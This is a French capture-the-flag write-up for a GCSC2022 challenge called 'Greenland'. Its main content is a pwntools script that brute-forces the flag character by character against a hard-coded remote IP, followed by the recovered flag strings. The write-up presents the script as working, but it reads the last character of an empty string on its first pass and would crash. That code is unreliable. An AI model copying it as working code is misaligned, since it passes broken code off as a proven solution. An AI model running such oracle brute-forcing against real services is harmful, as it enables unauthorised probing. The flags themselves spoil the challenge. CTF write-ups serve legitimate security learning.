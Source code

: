 ![](https://i.imgur.com/z3q04cN.png)

    Flag:GCSC2022{https://discord.gg/3gvtd8N6}

## Greenland - Un hacker n'a pas peur d'une porte fermée mais plutôt d'une porte ouverte.

![](https://i.imgur.com/JIFcVzj.png)

L'idée est donc d'envoyer autant de caractère ascii que nécessaire afin de pourvoir récupérer l'ensemble du flag.
On pourra le faire là main .On va donc écrire un script qui le fera pour nous.

```python=3.8

from pwn import *
from string import printable
letters=printable
pos=0
flag=''
while 1:
	if flag[-1]=='}':
		break	
	p=remote('159.65.242.247',9090)
	payload=flag+letters[pos]
	p.sendline(payload.encode())
	answer=p.recv().decode()
	if 'Flag' in answer:
		flag+=letters[pos]
		pos=0
		continue
	else:
		pos+=1
print(flag)
```

![](https://i.imgur.com/pa3jfsi.png)


ça n'a pas été rapide mais on tient finalement notre flag

    W3_h0ld_th3se_7ruth$_to_be_self-3v1dent,_th4t_all_m3n_are_cre4t3d_equ4l,_thAt_th3y_are_end0wed_by_the1r_CreaTor_with_c3rta1n_Unalienable_Right5,_that_am0ng_th3se_4re_Life,_Lib3rty_and_the_pUrsuit_0f_Happiness_GCSC{H4cK1nG_e7_l1b3rte}
    
> Flag:GCSC2022{H4cK1nG_e7_l1b3rte}
---


---


---


---
![](https://i.imgur.com/M0jeRzC.png)


![](https://i.imgur.com/qCkqDny.png)

Merci aux organisateurs!

***Fait par Giscard Lawin alias Ofsh1ll*** :v: 

